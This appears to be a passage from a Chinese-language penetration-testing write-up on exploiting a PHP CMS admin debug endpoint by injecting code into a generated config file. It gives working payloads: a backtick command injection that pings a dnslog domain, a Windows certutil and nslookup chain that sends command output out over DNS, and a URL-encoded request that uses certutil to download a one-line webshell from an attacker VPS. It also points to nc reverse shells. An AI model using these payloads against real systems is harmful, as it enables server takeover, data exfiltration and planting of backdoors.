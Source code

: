 ```php
<?php return ['name'=>'123']&`ping 123.yh6nta.dnslog.cn`;//',]; 
```
访问debug.php文件，页面没有报错，而且dnslog成功回显
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627976190829-597fc4be-908f-4c66-a852-bdc93422099e.png#align=left&display=inline&height=212&margin=%5Bobject%2Object%5D&name=image.png&originHeight=424&originWidth=1048&size=19358&status=done&style=none&width=524)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627976225056-8a0f56dd-89e0-44fd-8bda-f6c928a1ffb3.png#align=left&display=inline&height=324&margin=%5Bobject%2Object%5D&name=image.png&originHeight=648&originWidth=1636&size=71050&status=done&style=none&width=818)
4、既然可以执行命令了，很明显这里是无回显的情况，那么怎么拿到shell呢
PHP无回显情况下的渗透测试可以参考此文章：
[https://xz.aliyun.com/t/9916](https://xz.aliyun.com/t/9916)
### Linux系统
```php
这里不细说，只要命令没有<、>、?即可
1、nc反弹shell
2、配合其他组件，如redis等
3、等等～
```
### Windows系统
#### 1、第一次尝试
```php
使用`ping `whoami`.yh6nta.dnslog.cn`，失败
使用`ping /`whoami/`.yh6nta.dnslog.cn`，失败
使用`ping %系统变量%.yh6nta.dnslog.cn`，失败
```
#### 2、第二次尝试
使用系统命令外带数据，首先我在文件中直接修改，发现可以成功外带数据
```php
<?php return ['name'=>'123']&`cmd /c whoami > temp && certutil -encode -f temp temp&&FOR /F "eol=- delims=" %i IN (temp) DO (set _=%i & cmd /c nslookup %_:~0,-1%.yh6nta.dnslog.cn)&del temp`;//',]; 
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627977290414-50582704-a650-4082-a41a-cf9a1665b9b9.png#align=left&display=inline&height=207&margin=%5Bobject%2Object%5D&name=image.png&originHeight=414&originWidth=1540&size=39360&status=done&style=none&width=770)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627977306573-d1cd453b-5141-4d0b-9168-b691f744965b.png#align=left&display=inline&height=146&margin=%5Bobject%2Object%5D&name=image.png&originHeight=292&originWidth=1470&size=47685&status=done&style=none&width=735)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627977330429-234914f7-3549-4c6c-a3b9-6167a5649897.png#align=left&display=inline&height=338&margin=%5Bobject%2Object%5D&name=image.png&originHeight=676&originWidth=1130&size=61783&status=done&style=none&width=565)
后面发现，这条命令中含有一个>号，苦恼好久，暂时放弃。不过我觉得这个命令可以适当优化，然后就可以使用了。
#### 3、第三次尝试，成功getshell
这里借鉴了XX师傅的建议，通过命令下载文件getshell


1、首先需要准备一个文件，内容为一句话木马，放到vps的web服务中。（当然起一个python的http服务也可以，主要是要可以访问获取。）


2、windows中可以使用certutil下载文件
```php
#payload：
']&`certutil -urlcache -split -f http://vps地址:83/shell 1.php`;//
#url编码：
%27%5D%26%60certutil%20-urlcache%20-split%20-f%20http%3A%2F%2Fvps地址%3A83%2Fshell%201.php%60%3B%2F%2F
#通过id传参：
http://127.0.0.1/index.php/admin-api-debug.html?id=%27%5D%26%60certutil%20-urlcache%20-split%20-f%20http%3A%2F%2Fvps地址%3A83%2Fshell%201.php%60%3B%2F%2F
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627977842733-531b6b12-9c1d-437f-b7eb-43c9f4d2f586.png#align=left&display=inline&height=324&margin=%5Bobject%2Object%5D&name=image.png&originHeight=648&originWidth=1924&size=52188&status=done&style=none&width=962)
3、查看debug.php文件情况
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627977879453-9011b19e-b726-40d9-8d0b-d2f3f11814b6.png#align=left&display=inline&height=170&margin=%5Bobject%2Object%5D&name=image.png&originHeight=340&originWidth=1370&size=27921&status=done&style=none&width=685)
4、访问debug.php后，会在当前目录生成1.php，内容为一句话木马
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627978056537-80fdfb3f-2da0-4272-86ce-13fc3301fe3c.png#align=left&display=inline&height=270&margin=%5Bobject%2Object%5D&name=image.png&originHeight=540&originWidth=1340&size=52951&status=done&style=none&width=670)
5、执行phpinfo函数
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627978130967-fe3d3a57-3439-4ae1-93af-1f1c0df55acb.png#align=left&display=inline&height=423&margin=%5Bobject%2Object%5D&name=image.png&originHeight=846&originWidth=2230&size=218961&status=done&style=none&width=1115)
